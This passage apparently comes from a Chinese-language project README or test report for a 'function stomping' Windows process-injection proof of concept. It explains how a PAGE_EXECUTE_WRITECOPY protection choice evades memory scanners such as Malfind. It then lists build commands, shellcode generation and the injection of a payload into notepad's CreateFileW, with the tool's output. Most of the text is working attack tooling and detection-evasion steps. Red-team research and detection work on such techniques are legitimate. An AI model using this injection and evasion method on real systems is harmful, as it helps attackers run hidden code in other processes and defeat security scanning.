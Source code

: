 **为什么使用 WCX 而不是 RX？**

```c
// ❌ 常见做法（容易被检测）
VirtualProtectEx(hProcess, funcAddr, size, PAGE_EXECUTE_READ, &old);

// ✅ Function Stomping（绕过 Malfind）
VirtualProtectEx(hProcess, funcAddr, size, PAGE_EXECUTE_WRITECOPY, &old);
```

**原理**：
- **Malfind** 等内存扫描工具检测 RWX/RX 内存中的可疑代码
- **WRITECOPY** 是 Copy-On-Write 保护，看起来像合法的共享内存
- **参考**: [CyberArk - Masking Malicious Memory Artifacts](https://www.cyberark.com/resources/threat-research-blog/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners)

## 测试环境

- **操作系统**: Windows 10 (MSYS_NT-10.0-26100 x86_64)
- **编译器**: GCC (MinGW64)
- **架构**: 64位
- **日期**: 2025-10-08

## 测试过程

### 测试 1: 覆盖 CreateFileW 函数

**步骤 1**: 构建项目
```bash
cd techniques/29-function-stomping
./build.sh
```

**步骤 2**: 生成 shellcode
```bash
cd build
./generate_shellcode.exe calc
# 输出: calc_shellcode.bin (55 bytes)
```

**步骤 3**: 启动目标进程
```bash
notepad.exe &
# PID: 27816
```

**步骤 4**: 注入 shellcode 到 CreateFileW
```bash
./function_stomping.exe 27816 ../../23-threadless-inject/payload.bin kernel32.dll CreateFileW
```

**输出**:
```
[+] Function Stomping Injection POC
[+] Inspired by Module Stomping
[+] Original Research: Ido Veltzman (@Idov31)

[+] Loaded shellcode: 106 bytes

[+] Function Stomping Injection
[+] Target PID: 27816
[+] Target Module: kernel32.dll
[+] Target Function: CreateFileW
[+] Shellcode size: 106 bytes
[+] Opened target process
[+] Function base address: 00007FFB3F297250
[+] Changed protection to RW
[+] Successfully stomped the function! (106 bytes written)
```
